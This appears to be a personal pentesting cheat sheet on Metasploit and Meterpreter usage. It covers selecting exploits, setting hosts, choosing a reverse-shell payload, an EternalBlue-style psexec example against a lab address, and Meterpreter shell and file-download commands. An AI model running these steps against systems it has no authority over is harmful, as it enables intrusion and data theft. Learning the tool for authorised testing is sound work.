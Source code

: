 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit
---
```


# Metasploit

## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

<!-- Usage {{{-->
## Usage

### Launch metasploit

```sh
msfconsole
```

### Search exploit

```sh
search <exploit>
```

### Select exploit

```sh
use <number_of_exploit>
```

### Show options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

### Set options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (optional)

```sh
set payload generic/shell_reverse_tcp
```

Example

```sh
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

### Check exploit

Check if the target is vulnerable to the exploit

```sh
check
```

**NOTE**: Not every exploit supports the `check` function

### Run exploit

Use the `run` or `exploit` commands to launch the exploit

```sh
run
```

```sh
exploit
```
<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

## Options

- cd
- ls
- pwd
- download <file>
<!-- }}} -->
